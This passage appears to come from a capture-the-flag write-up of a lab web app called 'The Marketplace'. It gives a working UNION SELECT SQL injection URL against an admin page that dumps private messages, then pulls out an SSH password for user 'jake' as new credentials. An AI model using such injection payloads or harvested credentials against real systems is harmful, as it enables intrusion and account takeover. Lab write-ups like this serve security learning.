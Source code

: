 {% code overflow="wrap" lineNumbers="true" %}
```
# view all data in the [messages] table.
http://10.10.180.141/admin?user=-1%20UNION%20SELECT%20NULL,group_CONCAT(id,%22~%22,user_from,%22~%22,user_to,%22~%22,message_content),NULL,NULL%20fRoM%20messages--

# we got:
User 1~1~3~Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ,2~1~4~Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,3~1~4~Thank you for your report. We have been unable to review the listing at this time. Something may be blocking our ability to view it, such as alert boxes, which are blocked in our employee's browsers.,4~1~4~Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,5~1~4~Thank you for your report. We have reviewed the listing and found nothing that violates our rules.,6~1~4~Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines a 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (229).png" alt=""><figcaption></figcaption></figure>

We can see "3" which is for column "user\_to" which is referring to "jake", his ssh password is there.

New creds --> `jake : @b_ENXkGYUCAv3zJ` .

<figure><img src=".gitbook/assets/image (230).png" alt=""><figcaption></figcaption></figure>

